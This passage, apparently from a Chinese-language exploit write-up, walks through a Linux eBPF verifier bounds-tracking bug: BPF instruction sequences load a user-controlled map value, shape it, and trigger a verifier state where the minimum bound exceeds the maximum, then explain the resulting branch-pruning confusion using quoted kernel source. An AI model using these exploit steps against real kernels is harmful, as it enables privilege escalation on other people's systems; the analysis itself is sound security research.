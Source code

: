 由于`BPF_REG_5`来自map，完全由用户态控制，对于veifier，它是完全unknown的，即{mask=0xffffffffffffffff, value=0x0}；接下来我们需要将其低32bit设为`known`，可以and一个已知的常数值0xffffffff000000来构造。

```
		BPF_MAP_GET(0, BPF_REG_5);						// r5 = map.elem[0]
		BPF_MOV64_REG(BPF_REG_6, BPF_REG_5);			// r6 = r5

		BPF_MOV64_IMM(BPF_REG_2, 0xffffffff);			// r2 = 0xffffffff
		BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32);			// r2 <= 32 	== 0xffffffff 00000000
		BPF_ALU64_IMM(BPF_AND, BPF_REG_6, BPF_REG_2);	// r6 &= r2   ;	high32 unkown, low 32 known

		BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 0x1);			// r6.var_off = {mask=0xffffffff 00000000, value=0x01}
```

通过上述构造的两个寄存器的AND运算即可触发漏洞

```
		//	Trigger the vuln
		BPF_ALU64_IMM(BPF_AND, BPF_REG_6, BPF_REG_8);		// r6 &= r8;	r6.umin_value=0x1; r6.umax_value=0x0
```

此时r6低32位的真实值是`0x2 & 0x1 == 0x0`；

#### Path confusion

​	verfier在模拟执行bpf code时，遇到有条件分支，为了避免分支爆炸问题，会尝试根据寄存器的边界值，判断该条件分支是否只会走唯一的一条路径。

例如

```
BPF_JMP32_IMM(BPF_JGE, BPF_REG_6, 1, 5);
```

表示，如果`BPF_REG_6`的低32bit值大于等于1，将跳过接下来的5条指令。

对于JMP32，将由*is_branch32_taken*函数判断是否只有一条分支可走，其余分支可以抛弃。

```c

static int is_branch32_taken(struct bpf_reg_state *reg, u32 val, u8 opcode)
{
	struct tnum subreg = tnum_subreg(reg->var_off);
	s32 sval = (s32)val;

	switch (opcode) {
	....
	case BPF_JGE:
		if (reg->u32_min_value >= val)
			return 1;
		else if (reg->u32_max_value < val)
			return 0;
		break;
	...
	case BPF_JLE:
		if (reg->u32_max_value <= val)
			return 1;
		else if (reg->u32_min_value > val)
			return 0;
		break;
	...
	}
	return -1;
}
```
